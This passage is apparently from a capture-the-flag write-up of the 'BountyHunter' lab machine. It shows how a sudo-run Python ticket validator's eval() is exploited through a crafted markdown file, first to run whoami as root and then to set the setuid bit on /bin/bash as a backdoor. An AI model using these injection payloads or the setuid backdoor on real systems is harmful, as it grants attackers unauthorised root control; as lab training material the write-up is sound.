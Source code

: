 Let’s break down what it does:

- Uses `input()` for a filename.
- Validates that it is a markdown file.
- Checks for the following structure.
    
    ```markdown
    # Skytrain Inc
    ## Ticket to ARBITRARY
    __Ticket Code:__
    ** X+Y+Z <!-- X divided by 7 needs to have a remainder of 4 -->
    ```
    
- Lastly, it does an `eval()`.

Now comes the funny part! Created a markdown file that meets the requirements and injects a `whoami` command.

```markdown
# Skytrain Inc
## Ticket to ARBITRARY
__Ticket Code:__
** 74+0 and __import__("os").system("whoami")
```

Successfully achieved command execution as root :D.

```
development@bountyhunter:~$ echo -e '# Skytrain Inc\n## Ticket to ARBITRARY\n__Ticket Code:__\n** 74+0 and __import__("os").system("whoami")' > dusk.md

development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

<img src="/assets/img/bountyhunter/Untitled 12.png" alt="Untitled 11.png" style="width:800px;">

Created a backdoor.

```
development@bountyhunter:~$ echo -e '# Skytrain Inc\n## Ticket to ARBITRARY\n__Ticket Code:__\n** 74+0 and __import__("os").system("chmod +s /bin/bash")' > dusk.md

development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
./dusk.md
Destination: ARBITRARY
Invalid ticket.

development@bountyhunter:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
